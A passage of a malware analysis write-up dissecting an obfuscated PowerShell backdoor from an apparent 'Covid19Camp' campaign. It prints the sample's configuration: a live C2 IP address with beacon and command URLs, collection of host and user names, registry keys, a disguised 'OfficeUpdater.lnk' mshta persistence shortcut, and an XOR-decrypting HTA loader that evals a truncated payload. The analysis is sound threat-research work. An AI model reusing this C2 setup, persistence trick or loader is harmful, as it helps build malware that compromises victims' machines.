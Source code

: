 <h6>By looking quickly at the obfuscation of the payload, one can notice the use of the same methods as the tool previously reported.</h6>

```csharp
${lNKN`A`me}       = ("{2}{1}{0}{3}"-f 'Updater','ice','Off','.lnk')
${lN`KTA`RGeT}     = ('/v'+' '+'/c'+' '+'m'+'shta '+"`"!cd!\")+${l`NkName}+"`""
```

<h6>The first blocks of the code of the final layer are the global values for the scripts and the variables for the configuration of the payload. This content the C2, page to contact (for building URL for contact and persistence), the reference of the campaign of the attacker, filename of the lnk persistence, code for check the network disponibility, the encoding of the characters and keys for the module and registration on the panel C2. We can note that attacker use "Covid19Camp" as name code for theirs operations, this will be interesting for the victimology, the strategy and the movements done by the attackers.</h6>

```csharp
SeT-varIaBle jHTXC  ([TYPE]("syStem.TeXT.encOdING")  )  ;
$826 =[tYpe]("sYsTEm.inTpTR")  ;
set-ITeM VaRIABLe:H6jT  (  [TYPe]("SyStEm.secURiTy.cryPTOGraPHY.hAshAlGoRIthM") ) ;
SEt T2aY (  [type]("SYStem.nET.WeBreQuest")) ;
SV  Z3eb9M  ([TYPe]("syStem.iO.memORysTrEam") )  ;
Set-VARIABlE  m5E (  [type]("O.FiLe")  ) ;
$jEs =  [TypE]("COnVert")  ;
SEt-variAbLe  t2ZMW  (  [TyPe]("ENVirONmEnT"))  ;
SET-varIaBle  5ZSh ([TYPe]("SCripTbLOCK")) ;
$6Pl =[TYPE]("sYSTem.StringspLItoPTioNS")  ;
  
${hostNAme}      = ${Env:comPUTeRNAme}
${uSERnAME}      = ${EnV:UserNAMe}
${caMpAIGNiD}    = "Covid19Camp"
${rEMoTEHoSt}    = "http://95.179.252.217"
${gETSTaBpaTH}   = "load.php"
${comMANDpath}   = "web/index.php?r=cmd"
${REgIsTrYPATh}  = "HKCU:\Software\Classes\"
${reGisTEredKeY} = "Registered"
${MOdUlEsKey}    = 'TM'
${hasHhOSTkey}   = 'THH'
${wAITiNGTRIG}   = "waiting"
${sLeePTimeseC}  = 30
${lNKNAme}       = "OfficeUpdater.lnk"
${lNKTARGeT}     = ('/v /c mshta '+""!cd!\")+${lNkName}+"""
${pOlyGLOtHTa}   = '<html><script type="text/javascript">function mGMxD(YybYw,IUleC){var HQhtk=[];for(var i=0;i<YybYw.length;i+=1){HQhtk.push(String.fromCharCode(YybYw[i]^IUleC.charCodeAt(i%IUleC.length)))}return HQhtk.join("")};eval(mGMxD("22aaY44aaY22aaY6aaY14aa [...] aaY73aaY108aaY67".split("aaY"), "aExb"))</script></html>'
${eNcODiNG} =   $jhTxC::"UtF8"
```
<h6>In removing the obfuscation of the code (Xor operations), we can see the code used for check the connectivity of victim to internet for triggers the download and execution of the backdoor, this is the code of the persistence module of the Powershell backdoor.</h6>

```javascript
'<html>
<script type="text/javascript">
function decrypt(tab,key)
{
	var str=[];
	for(var i=0;i<tab.length;i+=1)
	{
		str.push(String.fromCharCode(tab[i]^key.charCodeAt(i%key.length)))
	}
	return str.join("")
};
eval(decrypt"22aaY44aaY22aaY6aaY14aa [...] aaY73aaY108aaY67".split("aaY"), "aExb"))
</script>
```